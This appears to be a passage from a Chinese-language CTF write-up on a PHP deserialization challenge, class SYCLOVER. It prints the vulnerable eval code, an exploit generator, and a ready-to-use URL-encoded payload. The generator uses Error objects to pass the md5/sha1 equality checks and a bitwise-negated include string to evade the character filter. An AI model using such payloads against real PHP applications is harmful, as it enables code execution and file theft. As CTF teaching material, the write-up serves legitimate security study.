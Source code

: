 ```php
    <?php
    
    class SYCLOVER {
        public $syc;
        public $lover;
        public function __wakeup(){
            if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
               if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
                   eval($this->syc);
               } else {
                   die("Try Hard !!");
               }
    
            }
        }
    }
    
    $str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
    /* 
    或使用[~(取反)][!%FF]的形式，
    即: $str = "?><?=include[~".urldecode("%D0%99%93%9E%98")."][!.urldecode("%FF")."]?>";    
    
    $str = "?><?=include $_GET[_]?>"; 
    */
    $a=new Error($str,1);$b=new Error($str,2);
    $c = new SYCLOVER();
    $c->syc = $a;
    $c->lover = $b;
    echo(urlencode(serialize($c)));
    
    ?>
```

这里 `$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";` 中为什么要在前面加上一个
`?>` 呢？因为 `Exception` 类与 `Error` 的 `__toString`
方法在eval()函数中输出的结果是不可能控的，即输出的报错信息中，payload前面还有一段杂乱信息“Error: ”：

```php
    Error: payload in /usercode/file.php:2
    Stack trace:
    #0 {main}
```

进入eval()函数会类似于：`eval("...Error: <?php payload ?>")`。所以我们要用 `?>` 来闭合一下，即
`eval("...Error: ?><?php payload ?>")`，这样我们的payload便能顺利执行了。

生成的payload如下：

```php
    O%3A8%3A%22SYCLOVER%22%3A2%3A%7Bs%3A3%3A%22syc%22%3BO%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A20%3A%22%3F%3E%3C%3F%3Dinclude%7E%D0%99%93%9E%98%3F%3E%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A1%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A19%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7Ds%3A5%3A%22lover%22%3BO%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A20%3A%22%3F%3E%3C%3F%3Dinclude%7E%D0%99%93%9E%98%3F%3E%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A2%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A19%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7D%7D
```
